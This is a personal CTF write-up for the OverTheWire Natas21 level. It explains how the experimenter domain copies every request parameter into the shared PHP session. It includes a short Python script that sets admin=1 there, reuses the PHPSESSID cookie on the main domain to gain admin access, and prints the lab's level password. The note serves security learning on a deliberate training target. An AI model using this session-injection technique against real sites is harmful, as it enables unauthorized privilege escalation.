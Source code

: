 
2024-07-22 16:21

Source: #natas #web #py 

Tags: [[PHP]] 

## Natas21

- we have 2 domains 
- 1st domain 
	- only calls the print flag function and has text that mentions the other domain 
- 2nd domain 
	- if they submit to the page, every single key in the requests is actually stored in session. 
- by setting debug = true and submit = 1 in the `get` request we get to know that it's gonna read the `get` variables just as well as it would have read the `post` variable
- since the websites are collocated the session id is assumed to not change
we need the same session already occurring similar to [[PHPSESSID & session handler w py]] Natas20

```python
import requests
username = 'natas21'
password = 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH'

url = 'http://natas21.natas.labs.overthewire.org/?debug=true'

experiment = 'http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'

session = requests.Session()

 # Getting the cookie from experiment domain we declare admin = 1 in `get` request in the url this can also be done via `post` method

response = session.get(experiment,auth=(username,password))
old_cookie = session.cookies["PHPSESSID"]

# using previously aquired session cookie in the main domain

responses = session.get(url,cookies= {"PHPSESSID" :old_cookie},auth=(username,password))
print(responses.text)
```
### TLDR

- We are forcing admin = 1 on experiment domain to get the session cookie of an admin account 
- since the session id is same for both the domains we copy the cookie from the experiment domain and use it in the main url to become admin and get the flag 

### References
https://www.youtube.com/watch?v=iFgQyI3Vfag